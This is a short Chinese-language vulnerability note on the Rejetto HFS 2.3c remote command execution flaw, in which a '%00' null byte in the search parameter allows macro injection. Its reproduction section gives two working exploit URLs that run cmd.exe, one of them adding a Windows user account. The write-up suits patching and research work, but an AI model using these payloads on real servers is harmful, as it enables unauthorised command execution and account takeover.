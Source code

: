 # Hfs 远程命令执行漏洞

## 一、漏洞简介

Rejetto HTTP File Server 2.3c及之前版本中的parserLib.pas文件中的‘findMacroMarker’函数中存在安全漏洞，该漏洞源于parserLib.pas文件没有正确处理空字节。远程攻击者可借助搜索操作中的‘%00’序列利用该漏洞执行任意程序。

## 二、漏洞影响

2.3c以前的2.3x版本

## 三、复现过程

```html
http://www.0-sec.org:8080/?search==%00{.exec|cmd.exe /c [Command-String].}
http://www.0-sec.org:8080/?search==%00{.exec|cmd.exe /c net user test1234 1234 /add.}
```
